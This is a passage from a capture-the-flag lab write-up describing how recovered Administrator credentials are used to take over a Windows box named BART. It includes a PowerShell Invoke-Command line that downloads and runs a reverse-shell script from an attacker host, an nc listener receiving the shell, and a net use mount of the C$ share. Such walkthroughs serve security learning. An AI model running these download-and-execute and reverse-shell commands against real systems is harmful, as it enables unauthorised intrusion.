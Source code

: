 
### Using Credentials to Get administrator Access

There a several different ways to use these credentials to get access to
administrator files (such as the flag). I’ll show two, `run_as` and `net use`:

#### powershell “run as”

Use the password to create a credential that can be passed to `Invoke-
Command`. In this case, `shell.ps1` is another `Invoke-PowerShellTcp.ps1` with
the port changed to 5555:

    
    
    PS C:\inetpub\wwwroot\internal-01\log> $username = "BART\Administrator"
    PS C:\inetpub\wwwroot\internal-01\log> $password = "3130438f31186fbaf962f407711faddb"
    PS C:\inetpub\wwwroot\internal-01\log> $secstr = New-Object -TypeName System.Security.SecureString
    PS C:\inetpub\wwwroot\internal-01\log> $password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
    PS C:\inetpub\wwwroot\internal-01\log> $cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr
    PS C:\inetpub\wwwroot\internal-01\log> Invoke-Command -ScriptBlock { IEX(New-Object Net.WebClient).downloadString('http://10.10.15.48:8083/shell.ps1') } -Credential $cred -Computer localhost
    
    
    
    root@kali# nc -lnvp 5555
    listening on [any] 5555 ...
    connect to [10.10.15.48] from (UNKNOWN) [10.10.10.81] 50593
    Windows PowerShell running as user Administrator on BART
    Copyright (C) 2015 Microsoft Corporation. All rights reserved.
    
    PS C:\Users\Administrator\Documents>whoami
    bart\administrator
    

#### net use

Just gets access to the filesystem, but that’s all that is needed to get the
flags:

    
    
    PS HKLM:\software\microsoft\windows nt\currentversion\winlogon> net use x: \\localhost\c$ /user:administrator 3130438f31186fbaf962f407711faddb
    The command completed successfully.
    
    PS HKLM:\software\microsoft\windows nt\currentversion\winlogon> x:
    PS X:\> cd users\administrator\desktop
    PS X:\users\administrator\desktop> ls
    
    
        Directory: X:\users\administrator\desktop
    
    
    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    -a----       11/02/2018     12:51             32 root.txt
    
